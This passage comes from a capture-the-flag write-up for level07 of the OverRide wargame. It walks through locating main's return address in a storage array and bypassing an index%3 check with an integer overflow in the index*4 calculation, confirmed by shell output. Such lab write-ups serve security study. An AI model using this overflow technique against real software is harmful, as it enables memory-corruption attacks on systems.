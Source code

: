 Let's try to grep the value we are looking for

```
level07@OverRide:~$ cat /tmp/output07 | grep "4158936339"
Input command:  Index:  Number at data[114] is 4158936339
```

Now we know the `main`'s return value is located at `index` 114, let's try to replace it with the `store_number` function to test the vulnerability

```
Input command: store
 Number: 42
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

We can't direclty write on the index 114 because 114 % 3 = 0

We will have to bypass this check, let's analyse the code to find a flaw

First we test the index and number values

```c
if (index % 3 == 0 || HIBYTE(number) == 183)
```

Then we store the number

The opertaion resides in a single line of code

```c
*(int *)(storageAddress + 4 * index) = number;
```

The index passed by the user is multiplied by 4 and added to the `storage` buffer address so we can try overflowing the result

If we give ( `UINT_MAX` + 1 ) / 4 as index, the number will be multiplied by 4 which will result in `UINT_MAX` + 1 which willl overflow to 0

Let's verify this on the index 1
```
UINT_MAX = 4 294 967 295
4 294 967 295 + 1 = 4 294 967 296 (UINT_MAX + 1)
4 294 967 296 / 4 = 1 073 741 824 ((UINT_MAX + 1) / 4 = index 0)
1 073 741 824 + 1 = 1 073 741 825 (index 1)
```

By giving 1 073 741 825 as index we should overflow and get index 1

1073741825

Let's try it

```
Input command: read
 Index: 1
 Number at data[1] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: 1073741825
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
```

